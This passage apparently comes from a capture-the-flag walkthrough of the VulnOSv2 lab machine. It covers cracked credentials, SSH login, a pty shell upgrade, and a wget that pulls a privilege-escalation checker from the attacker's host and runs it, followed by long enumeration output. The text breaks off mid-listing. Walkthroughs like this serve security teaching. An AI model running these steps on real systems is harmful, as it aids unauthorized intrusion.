Hash cracking and connection via SSH:
I used hashkiller.co.uk in order to crack the hashes that I found:
Then, I used those credentials to connect via SSH:
[GandoPC 192.168.43.3]# ssh webmin@192.168.43.3
webmin@192.168.43.3's password:
Welcome to Ubuntu 14.04.4 LTS (GNU/Linux 3.13.0-24-generic i686)
* Documentation: https://help.ubuntu.com/
System information as of Mon Oct 22 13:36:20 CEST 2018
System load: 0.53 Memory usage: 3% Processes: 58
Usage of /: 6.1% of 29.91GB Swap usage: 0% Users logged in: 0
=> There is 1 zombie process.
Graph this data and manage this system at:
https://landscape.canonical.com/
Last login: Wed May 4 10:41:07 2016
$ python -c 'import pty;pty.spawn("/bin/bash")'
webmin@VulnOSv2:~$ cd
Privilege escalation and capturing the flag:
I looked at the files at webmin's home directory and I started to enumerate webmin's permissions using linuxprivchecker.py:
webmin@VulnOSv2:~$ ls -aul
total 596
drwxr-x--- 3 webmin webmin 4096 Oct 22 20:20 .
drwxr-xr-x 4 root root 4096 May 4 2016 ..
-rw------- 1 webmin webmin 85 Oct 22 20:20 .bash_history
-rw-r--r-- 1 webmin webmin 220 May 3 2016 .bash_logout
-rw-r--r-- 1 webmin webmin 3637 Oct 22 20:20 .bashrc
drwx------ 2 webmin webmin 4096 Apr 30 2016 .cache
-rw-rw-r-- 1 webmin webmin 579442 Apr 30 2016 post.tar.gz
-rw-r--r-- 1 webmin webmin 675 Oct 22 20:19 .profile
webmin@VulnOSv2:~$ cat .bash_history
cd /home
cd vulnosadmin
ls -l
cd
ifconfig
exit
cd /home
cd vulnosadmin
ifconfig
exit
webmin@VulnOSv2:~$ sudo -l
[sudo] password for webmin:
Sorry, user webmin may not run sudo on VulnOSv2.
webmin@VulnOSv2:~$ cd /home/vulnosadmin/;ls -aul
bash: cd: /home/vulnosadmin/: Permission denied
total 596
drwxr-x--- 3 webmin webmin 4096 Oct 22 20:20 .
drwxr-xr-x 4 root root 4096 Oct 22 20:22 ..
-rw------- 1 webmin webmin 85 Oct 22 20:20 .bash_history
-rw-r--r-- 1 webmin webmin 220 May 3 2016 .bash_logout
-rw-r--r-- 1 webmin webmin 3637 Oct 22 20:20 .bashrc
drwx------ 2 webmin webmin 4096 Apr 30 2016 .cache
-rw-rw-r-- 1 webmin webmin 579442 Apr 30 2016 post.tar.gz
-rw-r--r-- 1 webmin webmin 675 Oct 22 20:19 .profile
webmin@VulnOSv2:~$ wget 192.168.43.4/Tools/linuxprivchecker/linuxprivchecker.py
--2018-10-22 20:33:52-- http://192.168.43.4/Tools/linuxprivchecker/linuxprivchecker.py
Connecting to 192.168.43.4:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 25304 (25K)
Saving to: ‘linuxprivchecker.py’
100%[======================================>] 25,304 --.-K/s in 0s
2018-10-22 20:33:52 (527 MB/s) - ‘linuxprivchecker.py’ saved [25304/25304]
webmin@VulnOSv2:~$ chmod +x linuxprivchecker.py
webmin@VulnOSv2:~$ python ./linuxprivchecker.py
=================================================================================================
LINUX PRIVILEGE ESCALATION CHECKER
=================================================================================================
[*] GETTING BASIC SYSTEM INFO...
[+] Kernel
Linux version 3.13.0-24-generic (buildd@komainu) (gcc version 4.8.2 (Ubuntu 4.8.2-19ubuntu1) ) #47-Ubuntu SMP Fri May 2 23:31:42 UTC 2014
[+] Hostname
VulnOSv2
[+] Operating System
### Welcome to VulnOSv2 ###
[*] GETTING NETWORKING INFO...
[+] Interfaces
eth0 Link encap:Ethernet HWaddr 08:00:27:57:4f:aa
inet addr:192.168.43.3 Bcast:192.168.43.255 Mask:255.255.255.0
inet6 addr: fe80::a00:27ff:fe57:4faa/64 Scope:Link
UP BROADCAST RUNNING MULTICAST MTU:1500 Metric:1
RX packets:39876 errors:0 dropped:0 overruns:0 frame:0
TX packets:37037 errors:0 dropped:0 overruns:0 carrier:0
collisions:0 txqueuelen:1000
RX bytes:6730800 (6.7 MB) TX bytes:10147632 (10.1 MB)
lo Link encap:Local Loopback
inet addr:127.0.0.1 Mask:255.0.0.0
inet6 addr: ::1/128 Scope:Host
UP LOOPBACK RUNNING MTU:65536 Metric:1
RX packets:2757 errors:0 dropped:0 overruns:0 frame:0
TX packets:2757 errors:0 dropped:0 overruns:0 carrier:0
collisions:0 txqueuelen:0
RX bytes:875248 (875.2 KB) TX bytes:875248 (875.2 KB)
[+] Netstat
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address Foreign Address State PID/Program name
tcp 0 0 127.0.0.1:3306 0.0.0.0:* LISTEN -
tcp 0 0 0.0.0.0:6667 0.0.0.0:* LISTEN -
tcp 0 0 0.0.0.0:22 0.0.0.0:* LISTEN -
tcp 0 0 127.0.0.1:5432 0.0.0.0:* LISTEN -
tcp 0 0 192.168.43.3:22 192.168.43.4:45440 ESTABLISHED -
tcp6 0 0 :::6667 :::* LISTEN -
tcp6 0 0 :::80 :::* LISTEN -
tcp6 0 0 :::22 :::* LISTEN -
tcp6 0 0 ::1:5432 :::* LISTEN -
udp 0 0 0.0.0.0:68 0.0.0.0:* -
udp 0 0 0.0.0.0:40425 0.0.0.0:* -
udp6 0 0 :::27703 :::* -
udp6 0 0 ::1:33536 ::1:33536 ESTABLISHED -
[+] Route
Kernel IP routing table
Destination Gateway Genmask Flags Metric Ref Use Iface
192.168.43.0 * 255.255.255.0 U 0 0 0 eth0
[*] GETTING FILESYSTEM INFO...
[+] Mount results
/dev/mapper/VulnOSv2--vg-root on / type ext4 (rw,errors=remount-ro)
proc on /proc type proc (rw,noexec,nosuid,nodev)
sysfs on /sys type sysfs (rw,noexec,nosuid,nodev)
none on /sys/fs/cgroup type tmpfs (rw)
none on /sys/fs/fuse/connections type fusectl (rw)
none on /sys/kernel/debug type debugfs (rw)
none on /sys/kernel/security type securityfs (rw)
udev on /dev type devtmpfs (rw,mode=0755)
devpts on /dev/pts type devpts (rw,noexec,nosuid,gid=5,mode=0620)
tmpfs on /run type tmpfs (rw,noexec,nosuid,size=10%,mode=0755)
none on /run/lock type tmpfs (rw,noexec,nosuid,nodev,size=5242880)
none on /run/shm type tmpfs (rw,nosuid,nodev)
none on /run/user type tmpfs (rw,noexec,nosuid,nodev,size=104857600,mode=0755)
none on /sys/fs/pstore type pstore (rw)
/dev/sda1 on /boot type ext2 (rw)
systemd on /sys/fs/cgroup/systemd type cgroup (rw,noexec,nosuid,nodev,none,name=systemd)
[+] fstab entries
# /etc/fstab: static file system information.
#
# Use 'blkid' to print the universally unique identifier for a
# device; this may be used with UUID= as a more robust way to name devices
# that works even if disks are added and removed. See fstab(5).
#
#
/dev/mapper/VulnOSv2--vg-root / ext4 errors=remount-ro 0 1
# /boot was on /dev/sda1 during installation
UUID=32883b01-a19b-494d-93e2-43ddb50d861e /boot ext2 defaults 0 2
/dev/mapper/VulnOSv2--vg-swap_1 none swap sw 0 0
[+] Scheduled cron jobs
-rw-r--r-- 1 root root 722 Feb 9 2013 /etc/crontab
/etc/cron.d:
total 20
drwxr-xr-x 2 root root 4096 Apr 16 2016 .
drwxr-xr-x 102 root root 4096 Oct 22 13:36 ..
-rw-r--r-- 1 root root 124 Oct 16 2014 drupal7
-rw-r--r-- 1 root root 510 Oct 28 2015 php5
-rw-r--r-- 1 root root 102 Feb 9 2013 .placeholder
/etc/cron.daily:
total 80
drwxr-xr-x 2 root root 4096 Apr 16 2016 .
drwxr-xr-x 102 root root 4096 Oct 22 13:36 ..
-rwxr-xr-x 1 root root 625 Jan 14 2016 apache2
-rwxr-xr-x 1 root root 376 Apr 4 2014 apport
-rwxr-xr-x 1 root root 15481 Apr 10 2014 apt
-rwxr-xr-x 1 root root 314 Feb 18 2014 aptitude
-rwxr-xr-x 1 root root 355 Jun 4 2013 bsdmainutils
-rwxr-xr-x 1 root root 256 Mar 7 2014 dpkg
-rwxr-xr-x 1 root root 372 Jan 22 2014 logrotate
-rwxr-xr-x 1 root root 1261 Apr 10 2014 man-db
-rwxr-xr-x 1 root root 435 Jun 20 2013 mlocate
-rwxr-xr-x 1 root root 249 Feb 17 2014 passwd
-rw-r--r-- 1 root root 102 Feb 9 2013 .placeholder
-rwxr-xr-x 1 root root 2417 May 13 2013 popularity-contest
-rwxr-xr-x 1 root root 383 Mar 3 2016 samba
-rwxr-xr-x 1 root root 214 Apr 10 2014 update-notifier-common
-rwxr-xr-x 1 root root 328 Jul 18 2014 upstart
/etc/cron.hourly:
total 12
drwxr-xr-x 2 root root 4096 Apr 3 2016 .
drwxr-xr-x 102 root root 4096 Oct 22 13:36 ..
-rw-r--r-- 1 root root 102 Feb 9 2013 .placeholder
/etc/cron.monthly:
total 12
drwxr-xr-x 2 root root 4096 Apr 3 2016 .
drwxr-xr-x 102 root root 4096 Oct 22 13:36 ..
-rw-r--r-- 1 root root 102 Feb 9 2013 .placeholder
/etc/cron.weekly:
total 28
drwxr-xr-x 2 root root 4096 Apr 3 2016 .
drwxr-xr-x 102 root root 4096 Oct 22 13:36 ..
-rwxr-xr-x 1 root root 730 Feb 23 2014 apt-xapian-index
-rwxr-xr-x 1 root root 427 Apr 16 2014 fstrim
-rwxr-xr-x 1 root root 771 Apr 10 2014 man-db
-rw-r--r-- 1 root root 102 Feb 9 2013 .placeholder
-rwxr-xr-x 1 root root 211 Apr 10 2014 update-notifier-common
[+] Writable cron dirs
[*] ENUMERATING USER AND ENVIRONMENTAL INFO...
[+] Logged in User Activity
20:34:05 up 6:57, 1 user, load average: 0.00, 0.01, 0.05
USER TTY FROM LOGIN@ IDLE JCPU PCPU WHAT
webmin pts/0 192.168.43.4 20:19 5.00s 0.09s 0.09s python -c import pty;pty.spawn("/bin/bash")
[+] Super Users Found:
root
[+] Environment
LESSOPEN=| /usr/bin/lesspipe %s
MAIL=/var/mail/webmin
SSH_CLIENT=192.168.43.4 45440 22
USER=webmin
LANGUAGE=en_US.UTF-8
SHLVL=1
HOME=/home/webmin
OLDPWD=/home/webmin/post
SSH_TTY=/dev/pts/0
LOGNAME=webmin
_=/usr/bin/python
XDG_SESSION_ID=1
TERM=xterm-256color
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
XDG_RUNTIME_DIR=/run/user/1001
LANG=en_US.UTF-8
SHELL=/bin/sh
LESSCLOSE=/usr/bin/lesspipe %s %s
LC_ALL=en_US.UTF-8
PWD=/home/webmin
SSH_CONNECTION=192.168.43.4 45440 192.168.43.3 22
[+] Root and current user history (depends on privs)
-rw------- 1 webmin webmin 85 May 4 2016 /home/webmin/.bash_history
[+] Sudoers (privileged)
[+] All users
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
libuuid:x:100:101::/var/lib/libuuid:
syslog:x:101:104::/home/syslog:/bin/false
messagebus:x:102:106::/var/run/dbus:/bin/false
landscape:x:103:109::/var/lib/landscape:/bin/false
vulnosadmin:x:1000:1000:vulnosadmin,,,:/home/vulnosadmin:/bin/bash
mysql:x:104:113:MySQL Server,,,:/nonexistent:/bin/false
webmin:x:1001:1001::/home/webmin:
sshd:x:105:65534::/var/run/sshd:/usr/sbin/nologin
postfix:x:106:114::/var/spool/postfix:/bin/false
postgres:x:107:116:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
[+] Current User
webmin
[+] Current User ID
uid=1001(webmin) gid=1001(webmin) groups=1001(webmin)
[*] ENUMERATING FILE AND DIRECTORY PERMISSIONS/CONTENTS...
[+] World Writeable Directories for User/Group 'Root'
drwxrwxrwx 4 root root 4096 Apr 16 2016 /etc/drupal/7/sites
drwxrwxrwx 2 root root 4096 Oct 22 20:33 /tmp
drwxrwxrwt 2 root root 40 Oct 22 13:36 /run/shm
drwxrwxrwt 4 root root 80 Oct 22 13:36 /run/lock
drwxrwxrwx 4 root root 4096 Apr 20 2016 /var/www
drwxrwxrwx 4 root root 4096 May 3 2016 /var/www/html
drwxrwxrwx 9 root root 4096 Apr 16 2016 /var/www/html/jabc
drwxrwxrwx 4 root root 4096 Apr 16 2016 /var/www/html/jabc/includes
drwxrwxrwx 2 root root 4096 Apr 16 2016 /var/www/html/jabc/includes/filetransfer
drwxrwxrwx 5 root root 4096 Apr 16 2016 /var/www/html/jabc/includes/database
drwxrwxrwx 2 root root 4096 Apr 16 2016 /var/www/html/jabc/includes/database/mysql
drwxrwxrwx 2 root root 4096 Apr 16 2016 /var/www/html/jabc/includes/database/sqlite
drwxrwxrwx 2 root root 4096 Apr 16 2016 /var/www/html/jabc/includes/database/pgsql
drwxrwxrwx 42 root root 4096 Apr 16 2016 /var/www/html/jabc/modules
drwxrwxrwx 2 root root 4096 Apr 16 2016 /var/www/html/jabc/modules/statistics
drwxrwxrwx 2 root root 4096 Apr 16 2016 /var/www/html/jabc/modules/comment
drwxrwxrwx 2 root root 4096 Apr 16 2016 /var/www/html/jabc/modules/blog
drwxrwxrwx 3 root root 4096 Apr 16 2016 /var/www/html/jabc/modules/filter
drwxrwxrwx 2 root root 4096 Apr 16 2016 /var/www/html/jabc/modules/filter/tests
drwxrwxrwx 3 root root 4096 Apr 16 2016 /var/www/html/jabc/modules/image
drwxrwxrwx 2 root root 4096 Apr 16 2016 /var/www/html/jabc/modules/image/tests
drwxrwxrwx 2 root root 4096 Apr 16 2016 /var/www/html/jabc/modules/shortcut
drwxrwxrwx 3 root root 4096 Apr 16 2016 /var/www/html/jabc/modules/aggregator
drwxrwxrwx 2 root root 4096 Apr 16 2016 /var/www/html/jabc/modules/aggregator/tests
drwxrwxrwx 3 root root 4096 Apr 16 2016 /var/www/html/jabc/modules/user
drwxrwxrwx 2 root root 4096 Apr 16 2016 /var/www/html/jabc/modules/user/tests
drwxrwxrwx 3 root root 4096 Apr 16 2016 /var/www/html/jabc/modules/rdf
drwxrwxrwx 2 root root 4096 Apr 16 2016 /var/www/html/jabc/modules/rdf/tests
drwxrwxrwx 3 root root 4096 Apr 16 2016 /var/www/html/jabc/modules/translation
drwxrwxrwx 2 root root 4096 Apr 16 2016 /var/www/html/jabc/modules/translation/tests
drwxrwxrwx 2 root root 4096 Apr 16 2016 /var/www/html/jabc/modules/toolbar
drwxrwxrwx 2 root root 4096 Apr 16 2016 /var/www/html/jabc/modules/taxonomy
drwxrwxrwx 3 root root 4096 Apr 16 2016 /var/www/html/jabc/modules/trigger
drwxrwxrwx 2 root root 4096 Apr 16 2016 /var/www/html/jabc/modules/trigger/tests
drwxrwxrwx 2 root root 4096 Apr 16 2016 /var/www/html/jabc/modules/menu
drwxrwxrwx 5 root root 4096 Apr 16 2016 /var/www/html/jabc/modules/field
drwxrwxrwx 2 root root 4096 Apr 16 2016 /var/www/html/jabc/modules/field/tests
drwxrwxrwx 7 root root 4096 Apr 16 2016 /var/www/html/jabc/modules/field/modules
drwxrwxrwx 2 root root 4096 Apr 16 2016 /var/www/html/jabc/modules/field/modules/text
drwxrwxrwx 2 root root 4096 Apr 16 2016 /var/www/html/jabc/modules/field/modules/number
drwxrwxrwx 2 root root 4096 Apr 16 2016 /var/www/html/jabc/modules/field/modules/field_sql_storage
drwxrwxrwx 2 root root 4096 Apr 16 2016 /var/www/html/jabc/modules/field/modules/options
drwxrwxrwx 3 root root 4096 Apr 16 2016 /var/www/html/jabc/modules/field/modules/list
drwxrwxrwx 2 root root 4096 Apr 16 2016 /var/www/html/jabc/modules/field/modules/list/tests
drwxrwxrwx 2 root root 4096 Apr 16 2016 /var/www/html/jabc/modules/field/theme
drwxrwxrwx 2 root root 4096 Apr 16 2016 /var/www/html/jabc/modules/field_ui
drwxrwxrwx 2 root root 4096 Apr 16 2016 /var/www/html/jabc/modules/book
drwxrwxrwx 3 root root 4096 Apr 16 2016 /var/www/html/jabc/modules/openid
drwxrwxrwx 2 root root 4096 Apr 16 2016 /var/www/html/jabc/modules/openid/tests
drwxrwxrwx 2 root root 4096 Apr 16 2016 /var/www/html/jabc/modules/contact
drwxrwxrwx 2 root root 4096 Apr 16 2016 /var/www/html/jabc/modules/dashboard
drwxrwxrwx 2 root root 4096 Apr 16 2016 /var/www/html/jabc/modules/help
drwxrwxrwx 3 root root 4096 Apr 16 2016 /var/www/html/jabc/modules/node
drwxrwxrwx 2 root root 4096 Apr 16 2016 /var/www/html/jabc/modules/node/tests
drwxrwxrwx 3 root root 4096 Apr 16 2016 /var/www/html/jabc/modules/locale
drwxrwxrwx 3 root root 4096 Apr 16 2016 /var/www/html/jabc/modules/locale/tests
drwxrwxrwx 2 root root 4096 Apr 16 2016 /var/www/html/jabc/modules/locale/tests/translations
drwxrwxrwx 2 root root 4096 Apr 16 2016 /var/www/html/jabc/modules/tracker
drwxrwxrwx 3 root root 4096 Apr 16 2016 /var/www/html/jabc/modules/search
drwxrwxrwx 2 root root 4096 Apr 16 2016 /var/www/html/jabc/modules/search/tests
drwxrwxrwx 2 root root 4096 Apr 16 2016 /var/www/html/jabc/modules/poll
drwxrwxrwx 2 root root 4096 Apr 16 2016 /var/www/html/jabc/modules/path
drwxrwxrwx 2 root root 4096 Apr 16 2016 /var/www/html/jabc/modules/dblog
drwxrwxrwx 2 root root 4096 Apr 16 2016 /var/www/html/jabc/modules/profile
drwxrwxrwx 2 root root 4096 Apr 16 2016 /var/www/html/jabc/modules/php
drwxrwxrwx 3 root root 4096 Apr 16 2016 /var/www/html/jabc/modules/overlay
drwxrwxrwx 2 root root 4096 Apr 16 2016 /var/www/html/jabc/modules/overlay/images
drwxrwxrwx 2 root root 4096 Apr 16 2016 /var/www/html/jabc/modules/system
drwxrwxrwx 5 root root 4096 Apr 16 2016 /var/www/html/jabc/modules/simpletest
drwxrwxrwx 7 root root 4096 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests
drwxrwxrwx 2 root root 4096 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/drupal_system_listing_incompatible_test
drwxrwxrwx 3 root root 4096 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/psr_0_test
drwxrwxrwx 3 root root 4096 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/psr_0_test/lib
drwxrwxrwx 3 root root 4096 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/psr_0_test/lib/Drupal
drwxrwxrwx 3 root root 4096 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/psr_0_test/lib/Drupal/psr_0_test
drwxrwxrwx 3 root root 4096 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/psr_0_test/lib/Drupal/psr_0_test/Tests
drwxrwxrwx 2 root root 4096 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/psr_0_test/lib/Drupal/psr_0_test/Tests/Nested
drwxrwxrwx 5 root root 4096 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/themes
drwxrwxrwx 2 root root 4096 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/themes/test_subtheme
drwxrwxrwx 2 root root 4096 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/themes/test_theme
drwxrwxrwx 2 root root 4096 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/themes/test_basetheme
drwxrwxrwx 2 root root 4096 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/drupal_system_listing_compatible_test
drwxrwxrwx 2 root root 4096 Apr 16 2016 /var/www/html/jabc/modules/simpletest/tests/upgrade
drwxrwxrwx 3 root root 4096 Apr 16 2016 /var/www/html/jabc/modules/simpletest/files
drwxrwxrwx 3 root root 4096 Apr 16 2016 /var/www/html/jabc/modules/simpletest/files/css_test_files
drwxrwxrwx 2 root root 4096 Apr 16 2016 /var/www/html/jabc/modules/simpletest/files/css_test_files/css_subfolder
drwxrwxrwx 3 root root 4096 Apr 16 2016 /var/www/html/jabc/modules/simpletest/lib
drwxrwxrwx 3 root root 4096 Apr 16 2016 /var/www/html/jabc/modules/simpletest/lib/Drupal
drwxrwxrwx 3 root root 4096 Apr 16 2016 /var/www/html/jabc/modules/simpletest/lib/Drupal/simpletest
drwxrwxrwx 2 root root 4096 Apr 16 2016 /var/www/html/jabc/modules/simpletest/lib/Drupal/simpletest/Tests
drwxrwxrwx 3 root root 4096 Apr 16 2016 /var/www/html/jabc/modules/color
drwxrwxrwx 2 root root 4096 Apr 16 2016 /var/www/html/jabc/modules/color/images
drwxrwxrwx 2 root root 4096 Apr 16 2016 /var/www/html/jabc/modules/syslog
drwxrwxrwx 3 root root 4096 Apr 16 2016 /var/www/html/jabc/modules/block
drwxrwxrwx 3 root root 4096 Apr 16 2016 /var/www/html/jabc/modules/block/tests
drwxrwxrwx 3 root root 4096 Apr 16 2016 /var/www/html/jabc/modules/block/tests/themes
drwxrwxrwx 2 root root 4096 Apr 16 2016 /var/www/html/jabc/modules/block/tests/themes/block_test_theme
drwxrwxrwx 4 root root 4096 Apr 16 2016 /var/www/html/jabc/modules/file
drwxrwxrwx 2 root root 4096 Apr 16 2016 /var/www/html/jabc/modules/file/tests
drwxrwxrwx 2 root root 4096 Apr 16 2016 /var/www/html/jabc/modules/file/icons
drwxrwxrwx 3 root root 4096 Apr 16 2016 /var/www/html/jabc/modules/update
drwxrwxrwx 3 root root 4096 Apr 16 2016 /var/www/html/jabc/modules/update/tests
drwxrwxrwx 4 root root 4096 Apr 16 2016 /var/www/html/jabc/modules/update/tests/themes
drwxrwxrwx 2 root root 4096 Apr 16 2016 /var/www/html/jabc/modules/update/tests/themes/update_test_subtheme
drwxrwxrwx 2 root root 4096 Apr 16 2016 /var/www/html/jabc/modules/update/tests/themes/update_test_basetheme
drwxrwxrwx 3 root root 4096 Apr 16 2016 /var/www/html/jabc/modules/contextual
drwxrwxrwx 2 root root 4096 Apr 16 2016 /var/www/html/jabc/modules/contextual/images
drwxrwxrwx 2 root root 4096 Apr 16 2016 /var/www/html/jabc/modules/forum
drwxrwxrwx 5 root root 4096 Apr 16 2016 /var/www/html/jabc/profiles
drwxrwxrwx 3 root root 4096 Apr 16 2016 /var/www/html/jabc/profiles/testing
drwxrwxrwx 4 root root 4096 Apr 16 2016 /var/www/html/jabc/profiles/testing/modules
drwxrwxrwx 2 root root 4096 Apr 16 2016 /var/www/html/jabc/profiles/testing/modules/drupal_system_listing_incompatible_test
drwxrwxrwx 2 root root 4096 Apr 16 2016 /var/www/html/jabc/profiles/testing/modules/drupal_system_listing_compatible_test
drwxrwxrwx 3 root root 4096 Apr 16 2016 /var/www/html/jabc/profiles/standard
drwxrwxrwx 2 root root 4096 Apr 16 2016 /var/www/html/jabc/profiles/standard/translations
drwxrwxrwx 3 root root 4096 Apr 16 2016 /var/www/html/jabc/profiles/minimal
drwxrwxrwx 2 root root 4096 Apr 16 2016 /var/www/html/jabc/profiles/minimal/translations
drwxrwxrwx 2 root root 4096 Apr 16 2016 /var/www/html/jabc/scripts
drwxrwxrwx 2 root root 4096 Apr 16 2016 /var/www/html/jabc/templates
drwxrwxrwx 7 root root 4096 Apr 16 2016 /var/www/html/jabc/themes
drwxrwxrwx 2 root root 4096 Apr 16 2016 /var/www/html/jabc/themes/stark
drwxrwxrwx 4 root root 4096 Apr 16 2016 /var/www/html/jabc/themes/garland
drwxrwxrwx 2 root root 4096 Apr 16 2016 /var/www/html/jabc/themes/garland/images
drwxrwxrwx 2 root root 4096 Apr 16 2016 /var/www/html/jabc/themes/garland/color
drwxrwxrwx 6 root root 4096 Apr 16 2016 /var/www/html/jabc/themes/bartik
drwxrwxrwx 2 root root 4096 Apr 16 2016 /var/www/html/jabc/themes/bartik/css
drwxrwxrwx 2 root root 4096 Apr 16 2016 /var/www/html/jabc/themes/bartik/images
drwxrwxrwx 2 root root 4096 Apr 16 2016 /var/www/html/jabc/themes/bartik/templates
drwxrwxrwx 2 root root 4096 Apr 16 2016 /var/www/html/jabc/themes/bartik/color
drwxrwxrwx 3 root root 4096 Apr 16 2016 /var/www/html/jabc/themes/engines
drwxrwxrwx 2 root root 4096 Apr 16 2016 /var/www/html/jabc/themes/engines/phptemplate
drwxrwxrwx 3 root root 4096 Apr 16 2016 /var/www/html/jabc/themes/seven
drwxrwxrwx 2 root root 4096 Apr 16 2016 /var/www/html/jabc/themes/seven/images
drwxrwxrwx 4 root root 4096 Apr 16 2016 /var/www/html/jabc/misc
drwxrwxrwx 3 root root 4096 Apr 16 2016 /var/www/html/jabc/misc/ui
drwxrwxrwx 2 root root 4096 Apr 16 2016 /var/www/html/jabc/misc/ui/images
drwxrwxrwx 2 root root 4096 Apr 16 2016 /var/www/html/jabc/misc/farbtastic
drwxrwxrwx 11 root root 4096 Apr 20 2016 /var/www/html/jabcd0cs
drwxrwxrwx 5 root root 4096 Nov 27 2013 /var/www/html/jabcd0cs/includes
drwxrwxrwx 3 root root 4096 Nov 27 2013 /var/www/html/jabcd0cs/includes/language
drwxrwxrwx 2 root root 4096 Nov 27 2013 /var/www/html/jabcd0cs/includes/language/DataTables
drwxrwxrwx 4 root root 4096 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables
drwxrwxrwx 10 root root 4096 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras
drwxrwxrwx 2 root root 4096 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/ColVis
drwxrwxrwx 3 root root 4096 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/AutoFill
drwxrwxrwx 5 root root 4096 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/AutoFill/media
drwxrwxrwx 2 root root 4096 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/AutoFill/media/css
drwxrwxrwx 3 root root 4096 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/AutoFill/media/docs
drwxrwxrwx 2 root root 4096 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/AutoFill/media/docs/symbols
drwxrwxrwx 2 root root 4096 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/AutoFill/media/images
